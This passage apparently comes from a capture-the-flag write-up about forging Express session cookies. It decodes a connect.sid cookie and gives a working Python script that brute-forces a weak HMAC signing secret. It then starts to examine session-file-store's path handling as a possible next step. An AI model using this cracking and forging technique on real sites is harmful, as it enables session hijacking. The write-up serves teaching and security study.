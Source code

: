 If we check the cookie we receive from the server, the `connect.sid=` seems to have this format:

```http
Cookie: connect.sid=s%3AJ9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk%2FkKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4
```

URL-decoded, this looks like:

```
prefix                            separator
VV                                V
s:J9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk/kKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4
  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  data                             signature
```

[Hashcat](https://hashcat.net/hashcat/) has a mode 1460 for HMAC-SHA256, but for this keyspace of only 32767 possibilities, a simple Python script will do just as well. We will take the `data`, sign it with the potential key, then compare it with the `signature`:

```py
from urllib.parse import unquote
from base64 import b64decode
from hashlib import sha256
import hmac

cookie = "s%3AJ9hccrvqDHuV62peoInc1Ub1yS56YJKe.lY4Guk%2FkKGJZf0H1O77arur9U6z0RdTg2IWKcGFThr4"

cookie = unquote(cookie).lstrip("s:")
data, signature = cookie.split(".", 1)
signature = b64decode(signature + '===')
for i in range(32767):
    secret = str(i).encode()
    possible_signature = hmac.new(
        secret, data.encode(), sha256).digest()
    if possible_signature == signature:
        print(secret)  # b'1685'
        break
```

This time, it happened to be `b'1685'`. Using this signing secret, we can pass any `data`, but what is data?

### File Sessions

The session store is from [`session-file-store`](https://github.com/valery-barysok/session-file-store). The "data" we can forge now is not the underlying session data, but instead a `sessionId` pointing to where the real data is stored. `FileStore` implements a `get()` method that handles getting data from a sessionId:

https://github.com/valery-barysok/session-file-store/blob/b89a42b00f24e720bb9d07cc7ddf72ef6c43c7bc/lib/session-file-helpers.js#L161

```js
var helpers = {
  sessionPath: function (options, sessionId) {
    //return path.join(basepath, sessionId + '.json');
    return path.join(options.path, sessionId + options.fileExtension);
  },
  ...
  get: function (sessionId, options, callback) {
    var sessionPath = helpers.sessionPath(options, sessionId);

    var operation = retry.operation({
      retries: options.retries,
      factor: options.factor,
      minTimeout: options.minTimeout,
      maxTimeout: options.maxTimeout
```